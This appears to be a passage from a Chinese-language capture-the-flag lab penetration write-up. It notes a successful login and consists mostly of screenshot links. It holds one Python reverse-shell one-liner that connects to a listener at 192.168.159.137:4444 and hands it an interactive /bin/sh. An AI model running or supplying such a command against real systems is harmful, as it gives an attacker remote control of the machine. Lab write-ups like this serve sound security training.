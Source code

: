 登录成功

![image-20230528153838277](CTF%E9%9D%B6%E5%9C%BA%E6%B8%97%E9%80%8Fimage/image-20230528153838277.png)

#### 2.9.1 查看索引获取信息

![image-20230528154501281](CTF%E9%9D%B6%E5%9C%BA%E6%B8%97%E9%80%8Fimage/image-20230528154501281.png)

#### 2.9.2 修改为python脚本

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.159.137",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'![image-20230528154617021](CTF%E9%9D%B6%E5%9C%BA%E6%B8%97%E9%80%8Fimage/image-20230528154617021.png)
```

![image-20230528154625877](CTF%E9%9D%B6%E5%9C%BA%E6%B8%97%E9%80%8Fimage/image-20230528154625877.png) 
